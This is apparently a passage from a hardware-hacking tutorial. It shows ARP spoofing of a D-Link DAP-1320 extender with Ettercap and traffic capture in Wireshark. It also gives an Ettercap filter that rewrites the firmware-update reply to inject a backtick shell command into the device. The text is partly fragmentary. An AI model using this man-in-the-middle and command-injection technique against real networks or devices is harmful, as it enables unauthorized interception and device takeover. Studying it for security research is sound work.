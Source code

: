 **The Test Environment Setup**

The test setup we’ve chosen uses 64-bit Kali Linux 2017, Ettercap, the DAP- 1320 wireless range extender with firmware version 1.11, and a stock wireless network. The idea is to ARP-spoof the DAP-1320 so that all traffic to and from the device goes through our Kali Linux system. Although we could have simply put a device inline between the extender and the router that can forward traffic after inspection and modification, ARP spoofing would be the likely attack mechanism used in the field.

**Ettercap**

As a quick refresher, Address Resolution Protocol (ARP) is the mechanism for resolving an IP address to its Media Access Control (MAC) address. The MAC address is a unique address assigned by the manufacturer of the network device. Simply put, when a station needs to communicate with another station, it uses ARP to determine the MAC address associated with the IP to use. ARP spoofing effectively poisons the ARP tables of the stations, causing them to use the attacker’s MAC address instead of the actual MAC address of the target station. Therefore, all traffic to a destination traverses through the attacker’s station. This effectively puts a device inline without having to physically modify the network.

Ettercap is a tool that allows us to ARP-spoof for the purposes of man-in- the-middle (MITM) attacks, parse the packets, modify them, and forward them to the recipient. To begin with, we use Ettercap to see the traffic between the device and the Internet by issuing the following command (where the device is 192.168.1.173 and the gateway is 192.168.1.1 in this example):

```
ettercap -T -q -M arp:remote /<device ip>// /<router ip>//
```

**Wireshark**

* Click on the New Firmware button and then follow the TCP Stream within Wireshark.

By going to the URL we captured, we can see that the XML contains the FW version’s major and minor numbers, the download site, and release notes.

**Ettercap Filter**

change the minor number to 12 and the firmware link to a shell command

```
# ettercap.filter

if (ip.proto==TCP && tcp.src==80)
{
	msg("Processing Minor Response ..\n");
	
	if (search(DATA.data, "<Minor>11")
	{
		replace("<Minor>11", "<Minor>12");
		msg("zapped Minor version!\n");
	}
	
	if (ip.proto==TCP && tcp.src==80)
	{
		msg("Processing Firmware Response..\n");
		
		if (search(DATA.data, "http://d"))
		{
			replace("http://d", "`reboot`");
			msg("zapped firmware!\n");
		}
	}

} 
```
